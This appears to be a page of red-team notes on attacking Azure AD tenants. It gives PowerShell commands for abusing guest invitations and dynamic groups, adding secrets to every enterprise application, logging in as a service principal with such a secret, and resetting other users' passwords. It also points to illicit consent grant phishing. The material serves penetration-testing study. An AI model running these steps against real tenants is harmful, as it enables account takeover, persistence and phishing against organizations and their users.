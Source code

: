 #### Invite users
- Go to Users and select "New Guest User"
- Open the user's profile and click on "(manage)" under invitation accepted. Select YES on resend invite and copy the URL.
- Open the URL in a private browser and login and accept the permissions.
- Connect to the tenant with AzureAD
- Set the secondary email for the user (Get the objectID of the user from the portal where we made the guest)
```
Set-AzureADUser -ObjectId <ID> -OtherMails <EMAIL> -Verbose
```
- Check if the user is added to the dynamic group (Might take a bit)

## Add credentials to enterprise applications
#### Check if secrets (application passwords) can be added to all enterprise applications
```
. .\Add-AzADAppSecret.ps1
Add-AzADAppSecret -GraphToken $graphtoken -Verbose
```

#### Use the secret to authenticate as service principal
```
$password = ConvertTo-SecureString '<SECRET>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('<ACCOUNT ID>', $password)
Connect-AzAccount -ServicePrincipal -Credential $creds -Tenant <TENANT ID>
```

#### Check what the service principal can access
- [Exploitation Enumeration](#Exploitation-Enumeration)

## Illicit Consent Grant
- If app registration is allowed for users [link](https://portal.azure.com/#view/Microsoft_AAD_IAM/ActiveDirectoryMenuBlade/~/UserSettings) and you can enumerate AD users/emails you can perform Illicit Consent Grant Phishing with an app from inside the tenant.
- [Link](../initial-access-attacks.md#Illicit-Consent-Grant-phishing) to the attack from Initial Access Attacks
- Use `Accounts in this organizational directory only (<TENANT NAME> only - Single tenant)` since its from inside the tenant already!

## Privileged Roles & Privileges
### Reset Password
- The following roles can reset a password of the following roles:
![image](https://user-images.githubusercontent.com/43987245/222741224-3b501706-b5b1-4b67-9622-526d4c563df9.png)

#### Reset password
```
(Get-AzureADUser -All $true | ?{$_.UserPrincipalName -eq "<USER>"}).ObjectId | Set-AzureADUserPassword -Password $Password -Verbose
```
